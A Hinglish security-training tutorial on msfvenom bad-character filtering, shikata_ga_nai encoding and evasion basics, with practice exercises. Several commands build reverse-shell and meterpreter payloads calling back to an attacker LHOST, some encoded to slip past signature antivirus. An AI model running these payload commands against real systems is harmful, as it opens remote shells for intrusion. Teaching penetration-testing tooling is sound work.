

# Topic 20 - Msfvenom Encoders, Bad Characters & Evasion Basics

Hacking and security auditing mein, sirf payload banana kaafi nahi hota. Target environments mein **Antivirus detections** aur software-level constraints (jaise **Bad Characters**) payload execution ko block kar dete hain. 

Is guide mein hum seekhenge ki **Encoders** aur **Bad Characters** kya hote hain, Msfvenom mein `-e` aur `-b` flags ka use kaise kiya jata hai, aur inka standard evasion mechanics kya hai.

---

## 🗺️ Visual Architecture: Evasion & Encoding Pipeline



---

## 1. Concept 1: What are Bad Characters? (The code break values)

### A. The Core Logic
C/C++ languages mein likhe gaye programs strings ko handle karne ke liye **Null Terminals (`\x00`)** ka use karte hain. 
* **The Problem:** Agar target application ke dynamic buffer memory space mein aapka payload binary check run kar raha hai, aur us shellcode ke beech mein `\x00` aa jata hai, toh application use string ka end (`Null terminator`) samajh leti hai.
* **The Consequence:** Application aage ka payload execute hi nahi karegi. Aapka exploit instantly crash ho jayega aur access cut ho jayega.

### B. Common Bad Characters Examples:
* **`\x00` (Null Byte):** Sabse common bad char (humesha avoid kiya jata hai).
* **`\x0a` (Line Feed / New Line `\n`):** Application ko lagta hai yahan command terminate ho gayi.
* **`\x0d` (Carriage Return `\r`):** Windows inputs terminate systems.

### C. Solution in Msfvenom (The `-b` Flag):
Msfvenom ko instructions dene ke liye ki payloads compile karte waqt specific bad characters ko bypass kare, hum **`-b`** (Bad Characters) flag use karte hain:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 -b '\x00\x0a\x0d' -f exe -o test.exe
```
*(Metasploit compiler automatically binary calculation run karke bad characters ko safe instructions se replace kar dega).*

---

## 2. Concept 2: What are Encoders? (Obfuscation logic)

### A. The Concept
Encoders shellcode ke raw format signatures ko change (encode) kar dete hain taaki:
1. Shellcode ke andar se **Bad Characters remove** ho sakein.
2. Purane, signature-based **Antivirus (AV) detection bypass** ho sake.

### B. How Encoding works under-the-hood:
1. Metasploit select kiye gaye encoder (jaise `x86/shikata_ga_nai`) ke zariye payload code ko encrypt/encode (e.g. XOR operations se) karta hai.
2. Compiled payload ke aage ek chota sa header add hota hai jise **Decoder Stub** bolte hain.
3. Target memory mein jab payload land karta hai, toh **Decoder Stub** pehle execute hota hai, jo encoded payload ko target ki RAM mein wapas decrypt karta hai, aur execute kar deta hai.

### C. Msfvenom Encoding Flags (`-e` and `-i`):
* **`-e` (Encoder):** Kaun sa encoder engine use karna hai.
* **`-i` (Iterations):** Payload ko kitni baar encode karna hai (jaise 3 to 5 rounds).
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 -e x86/shikata_ga_nai -i 5 -f exe -o bypass.exe
```

---

## 3. Practical Walkthrough (Basic to Advance)

### Practical 1: Generating a Bad-Character-Free Linux Shellcode (Basic)
Linux buffer exploits ke liye code generate karna jisme Null byte `\x00` na ho:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.98.128 LPORT=4444 -b '\x00' -f raw
```
*(Output output parameters observe karein, terminal hex block mein kahin bhi `00` value show nahi hogi).*

### Practical 2: Multi-Round Shikata_Ga_Nai Encoding (Advance)
Windows shellcode generator command using 3 rounds of encoding:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded.exe
```

---

## 🛡️ Pro-Tips & Evasion Realities

### 1. Modern Antivirus vs Encoders
* **The Reality:** Shikata_ga_nai jaise encoders Windows Defender ya modern EDR (Endpoint Detection & Response) system bypass **nahi** kar pate. Modern AV static signature ke alawa **Behavioral Analysis** karte hain.
* **Why use it then?** Inka main kaam bad characters bypass karna aur network layers filters ko target information obfuscate karna hota hai.

---

## 📝 Practice Exercises (Hinglish Tasks)

1. **Exercise 1 (Identify Bad Characters):**  
   C/C++ buffer stack operations mein **`\x00` (Null Byte)** ko humesha bad character kyun mana jata hai? (Technical memory logic batao).

2. **Exercise 2 (Encoder Selection Syntax):**  
   Msfvenom se custom payload build karte waqt, `x86/shikata_ga_nai` encoder use karke use 4 iterations mein process karne ka CLI syntax commands layout write karein.

3. **Exercise 3 (Decoder Stub Purpose):**  
   Encoded payload execution ke waqt, **Decoder Stub** ka primary function target machine ke RAM memory buffer mein kya hota hai?

4. **Exercise 4 (Check Encoded Format Size):**  
   Iterations (`-i`) badhane se compiled payload binary file ke overall size par kya impact padta hai? (Socho ki multiple iterations check dynamic loops headers kaise append karte hain).

5. **Exercise 5 (Verify list of Encoders):**  
   Msfconsole ke andar available saare active encoders ki list display karne ki index command line kya hai?

6. **Exercise 6 (Bad Character list formatting):**  
   Msfvenom `-b` flag run parameters mein multiple bad characters pass karne ka standard string formatting syntax template check kya hai?

7. **Exercise 7 (Evasion Limitation check):**  
   EDR (Endpoint Detection and Response) behavioral scanner dynamically encoded payloads ko memory execution load stage par kaise catch/detect kar leta hai?

8. **Exercise 8 (Identify polymorphic encoder):**  
   Famous `shikata_ga_nai` encoder ko polymorphic character index parameters check ke andardevelop kiya gaya hai. "Polymorphic" ka dynamic definition compile check kya hota hai?
